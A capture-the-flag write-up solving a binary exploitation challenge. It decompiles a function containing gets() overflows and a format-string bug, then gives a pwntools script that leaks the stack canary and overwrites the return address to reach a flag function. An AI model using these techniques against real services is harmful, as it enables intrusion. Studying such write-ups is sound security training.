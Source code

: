 # Finches in a Stack

> There's a service at 88.198.219.20:13311, exploit it to get the flag.

## Description

Let's disassemble the binary with Ghidra. The main function calls the
following function:

```c  
void say_hi(void)  
{  
 char cVar1;  
 uint uVar2;  
 char *pcVar3;  
 int in_GS_OFFSET;  
 byte bVar4;  
 char local_29 [4];  
 undefined2 uStack37;  
 undefined local_22 [18];  
 int local_10;  
  
 bVar4 = 0;  
 local_10 = *(int *)(in_GS_OFFSET + 0x14);  
 printf("Hi! What\'s your name? ");  
 gets((char *)((int)&uStack37 + 1));  
 printf("Nice to meet you, ");  
 uVar2 = 0xffffffff;  
 pcVar3 = (char *)((int)&uStack37 + 1);  
 do {  
   if (uVar2 == 0) break;  
   uVar2 = uVar2 - 1;  
   cVar1 = *pcVar3;  
   pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;  
 } while (cVar1 != '\0');  
 *(undefined2 *)((int)&uStack37 + ~uVar2) = 0xa21;  
 *(undefined *)((int)&uStack37 + ~uVar2 + 2) = 0;  
 printf((char *)((int)&uStack37 + 1));  
 puts("Do YOU want to pet my canary?");  
 gets(local_29);  
 if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {  
   __stack_chk_fail_local();  
 }  
 return;  
}  
```

There are a lot of vulnerabilities here:  
- there is a first buffer overflow for buffer `local22 = &ustack37 + 1`  
- then there is a format string vulnerability which prints the content of this same buffer  
- finally the buffer `local29` can also be overflown.  
- there is another function `flag` implemented which leak the flag.

The issue is that canaray protection is enabled. With `checksec`, we remark
that PIE is not enabled.

## Solution

The format string vulnerability can leak the value of the canaray. Therefore
we exploit it to leak the canary value and use it when we overflow the second
buffer to overwrite the return address with `flag` address.

```python  
from pwn import *

sh = remote('88.198.219.20', 30709)

print(sh.recvuntil("name?").decode())

# Leak canary  
offset = 11  
payload = "%{}$p".format(offset)  
sh.sendline(payload)

print(sh.recvuntil("you, ").decode(), end="")  
canary = sh.recvuntil("!").decode()  
print(canary)  
canary = int(canary.split("!")[0], 16)

# Overflow  
offset_canary = 4*6+1  
offset_ret = 3*4  
flag = 0x80491d2 # PIE not enabled  
print(sh.recvuntil("canary?").decode())  
payload = b" "*offset_canary + p32(canary) + b" "*offset_ret + p32(flag) +
"".join([str(i)*4 for i in range(9)]).encode()

sh.sendline(payload)

sh.interactive()  
```

Flag: `ractf{St4ck_C4n4ry_FuN!}`

Original writeup (https://github.com/apoirrier/CTFs-
writeups/blob/master/AwesomeCTF2020/PWN/FinchesStack.md).